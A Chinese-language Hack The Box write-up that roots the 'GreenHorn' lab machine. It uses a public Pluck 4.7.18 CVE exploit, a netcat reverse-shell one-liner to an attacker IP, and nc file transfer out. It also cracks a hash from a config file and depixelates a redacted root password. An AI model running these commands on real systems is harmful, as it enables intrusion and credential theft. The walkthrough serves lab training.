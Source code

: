 # 服务
```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.25   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 05:01 EDT
Stats: 0:16:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.59% done; ETC: 05:25 (0:08:12 remaining)
Stats: 0:28:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.55% done; ETC: 05:31 (0:01:19 remaining)
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.43s latency).
Not shown: 65452 closed tcp ports (reset), 61 filtered tcp ports (host-unreach), 19 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 1808.90 seconds


```

写host
```
echo "10.10.11.25 greenhorn.htb" >> /etc/hosts
```

![](GreenHorn_files/1.jpg)

这个页面暴露出软件版本：pluck 4.7.18


使用[CVE-2023-50564](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

修改

shell.php
![](GreenHorn_files/2.jpg)

poc.py
![](GreenHorn_files/3.jpg)

拿到shell

![](GreenHorn_files/4.jpg)


ZIP file path: ```/root/htb/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC-main/shell.zip```

tty，返回一个稳定shell
```
/bin/sh -i

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 443 >/tmp/f
```

找到一个密码：
```
cat /var/www/html/pluck/data/inc/functions.admin.php | grep password

$ cd /var/www/html/pluck/data/
$ cd settings
$ cat pass.php
$ <?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

拿去在线解密是：iloveyou1


就是用户junior的密码：
```
$ su junior
Password: iloveyou1
id
uid=1000(junior) gid=1000(junior) groups=1000(junior)

```

传输桌面的Using OpenVAS.pdf文件
```
nc -lvp 139 > 'Using OpenVAS.pdf'
nc 10.10.16.19 139 < 'Using OpenVAS.pdf'
```

机器安装了OpenVAS

![](GreenHorn_files/5.jpg)


尝试执行
```
junior@greenhorn:~$ sudo /usr/sbin/openvas
sudo /usr/sbin/openvas
[sudo] password for junior: iloveyou1

junior is not in the sudoers file.  This incident will be reported.
junior@greenhorn:~$ 

```


# 提权

提取pdf里被遮挡的密码图片
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```

使用[Depix](https://github.com/spipm/Depix)这个项目

执行：
```
python3 depix.py \
-p /root/htb/GreenHorn/greenhorn-000.ppm \
-s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
-o /root/htb/GreenHorn/output0.png

```

![](GreenHorn_files/6.jpg)

得到明文：

![](GreenHorn_files/7.jpg)

注意密码要去掉空格：sidefromsidetheothersidesidefromsidetheotherside


```
$ su root
Password: sidefromsidetheothersidesidefromsidetheotherside
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
id
uid=0(root) gid=0(root) groups=0(root)

```